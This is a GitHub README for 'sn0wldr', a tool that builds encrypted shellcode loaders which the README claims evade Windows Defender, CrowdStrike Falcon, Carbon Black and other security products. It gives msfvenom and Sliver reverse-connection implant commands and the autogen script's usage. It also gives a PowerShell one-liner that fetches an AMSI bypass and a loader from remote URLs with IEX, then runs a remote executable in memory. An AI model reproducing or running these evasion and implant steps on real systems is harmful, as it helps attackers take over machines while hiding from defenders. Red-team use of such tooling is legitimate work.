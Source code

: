 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Linux
```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

* Meterpreter
* Covenent
* Sliver
* Cobalt Strike


### Feature

* Process Hollowing
* Behaviour detection bypass
* Random AES encryption
* Rewrite to use D/Invoke direct syscalls
* Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format:
For Sliver:
```
### To Generate a Sliver implant shellcode without obfuscation:
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 --skip-symbols -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:
```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:
```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h                              
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type> 
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate 

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin 
[!] Currently c2type only support the following four: 
[!] 	sliver|meterpreter|cobaltstrike|covenant 
[!] Current directly syscall methods only support the following two: 
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:
```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));Invoke-LoadAssembly -AssemblyUrl https://not.o0.rs/halosli64x2.exe -Command ""
```

### To Do

* Add bananameowloader for even better AV bypass
* Add InlineExecute-Assembly BoF support for Sliver


